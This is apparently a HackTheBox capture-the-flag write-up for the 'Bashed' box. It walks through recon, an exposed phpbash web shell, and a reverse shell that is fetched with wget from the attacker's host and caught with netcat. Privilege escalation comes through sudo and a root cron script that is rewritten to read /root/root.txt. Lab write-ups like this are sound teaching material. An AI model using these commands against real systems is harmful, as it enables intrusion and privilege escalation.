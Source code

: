 # Bashed

Author: Ewaël

**Bashed** is an easy HackTheBox box by Arrexel.

`nmap -sC -sV -oN nmap 10.10.10.68 -v -A` shows that only port 80 is open. And [http://10.10.10.68](http://10.10.10.68) presents a *phpbash* test feature.

![main](main.png)

Considering this is a test site, I should be able to test this on the site. `dirb http://10.10.10.68` finds `/php` and `/dev`. I find what I'm searching for in `/dev`:

![phpbash](phpbash.png)

I start by looking at `/home`, and I find the user flag in `arrexel` repo:

`2c281f318555dbc1b856957c7147bfc1`

To get the root flag, my first idea is to create a `shell.php` in the `/uploads` site directory that dirb found. But the problem is that the "<?" sequence is filtered in the *phpbash* input. Indeed,

```bash
echo "?php echo allo; ?" > test
```

works correctly but

```bash
echo "<?php echo allo; ?>" > test
```

becomes `echo "" > test`. My second idea is to escalade privs to become root directly on the site. `sudo -l` shows that I can easily become `scriptmanager` without password, but `sudo -u scriptmanager bash` does not return anything.

I understand I should stop working on the site and that I should spawn a shell on my host for my privilege escalation. To do so, I upload a reverse shell on the site. First I copy one to my working directory.

```bash
cp /usr/share/laudanum/php/php-reverse-shell.php .
```
After changing the IP:port, I start a server to make it accessible.

```bash
python -m SimpleHTTPServer 80
```

From the *phpscript* page, I download it with

```bash
wget 10.10.14.34/php-reverse-shell.php
```

where `10.10.14.34` is my IP. To conclude I start netcat to listen on the port I configured in the reverse shell code.

```bash
nc -lvnp 4444
```

Then I just need to go to `/uploads/php-reverse-shell.php` to get my shell. From there I spawn a shell as `scriptmanager` with `sudo -u scriptmanager bash` and `python -c 'import pty; pty.spawn("/bin/sh")'`, because it's easier to use. In `/` I find a `scripts` directory that belongs to me, where I find `test.py` which writes "123" in the `test.txt` file. Strange detail is that `test.txt` belongs to root and was updated a minute ago. After waiting one more minute I understand the script is executed by root every minute, so I just modify it in order to get the flag next time it is executed:

```bash
echo 'f = open("/root/root.txt", "r").read(); g = open("test.txt", "w"); g.write(f)' > test.py
```

Now I can just get my root flag in `test.txt`:

`cc4f0afe3a1026d402ba10329674a8e2`
